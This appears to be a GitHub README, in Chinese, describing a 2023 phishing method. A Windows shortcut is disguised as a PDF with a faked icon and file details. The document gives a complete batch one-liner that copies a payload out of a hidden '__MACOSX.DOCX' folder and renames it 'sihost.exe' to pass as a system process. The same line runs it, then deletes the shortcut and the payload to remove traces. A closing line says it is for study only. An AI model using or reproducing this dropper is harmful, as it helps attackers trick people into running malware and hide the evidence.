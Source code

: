 
### 1.快捷方式生成
参考 www.x86matthew.com 的项目，原文链接已删除。 
2023年7月份改的代码，主要配合bat/vbs脚本调用，图标替换通过010editor进行修改，之前本想将其写成个 操作友好的工具，但由于部分原因没弄成.

test处可伪装成正常打开pdf时显示的内容（类型、大小、修改日期）


### 2.图标处理
参考 https://www.cnblogs.com/f-carey/p/16542156.html#tid-sywapk 
<img width="910" alt="image" src="https://github.com/user-attachments/assets/1372ea03-f5ee-4e01-ba5b-d83d7ab8424d">

### 3.bat脚本
```
xcopy /h /y %cd%__MACOSX.DOCX\calc.tmp %temp%\ & attrib -s -a -h %temp%\calc.tmp & rename %temp%\calc.tmp sihost.exe & attrib -s -a -h %cd%__MACOSX.DOCX\calc.tmp & start %temp%\sihost.exe & del "calc.pdf.lnk"  &  del /F /A /Q %cd%__MACOSX.DOCX\calc.tmp
```

### 4.文件夹隐藏
打开隐藏后效果如下，正常情况默认隐藏 .__MACOSX 文件夹

<img width="1424" alt="image" src="https://github.com/user-attachments/assets/8e49da65-02ff-471b-a17b-b04cff7187ea">


### 注意！！！
2023年时候用的方法，仅作为一种钓鱼思路进行参考学习，切勿被恶意使用！！！
